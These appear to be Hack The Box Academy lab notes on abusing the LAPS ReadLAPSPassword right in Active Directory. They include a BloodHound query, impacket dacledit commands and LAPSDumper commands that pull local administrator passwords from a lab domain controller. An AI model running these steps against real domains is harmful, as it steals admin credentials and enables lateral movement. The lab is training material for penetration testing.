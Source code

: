 
---
---
## ReadLAPSPassword

> Identifying LAPS Privileges

If we get access to an account that has privileges to read `LAPS` password attributes or with either `GenericAll` or `AllExtendedRights` access rights against a target computer configured with `LAPS`, we can retrieve the local administrator password from Active Directory by reading the `ms-MCS-AdmPwd` attribute.

`BloodHound` has an edge named [ReadLAPSPassword](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#readlapspassword), which searches if an account has the `ReadProperty` access right over the attribute `ms-MCS-AdmPwd` and if `ms-MCS-AdmPwdExpirationTime` is set. This edge helps us to identify potential attack paths by revealing accounts that can read the `LAPS` password attribute. We can use the following cypher query to identify accounts with the `ReadLAPSPassword` access right:

```cypher
MATCH p=((n)-[r:ReadLAPSPassword]->(m)) RETURN p
```

![read_laps_passwords.jpg](https://academy.hackthebox.com/storage/modules/219/read_laps_passwords.jpg)

> Searching DACLs for Rita

```bash
python3 examples/dacledit.py -principal rita -target 'laps09$' -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01
```

> Searching DACL LAPS Readers Group

```bash
python3 examples/dacledit.py -principal 'LAPS READERS' -target 'laps09$' -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01
```

## Abusing ReadProperty ( ReadLAPSPassword) from Linux

```c
anas21@htb[/htb]$ git clone https://github.com/n00py/LAPSDumper -q
anas21@htb[/htb]$ cd LAPSDumper
anas21@htb[/htb]$ python3 laps.py -u rita -p Password123 -l 10.129.205.81 -d inlanefreight.local
```

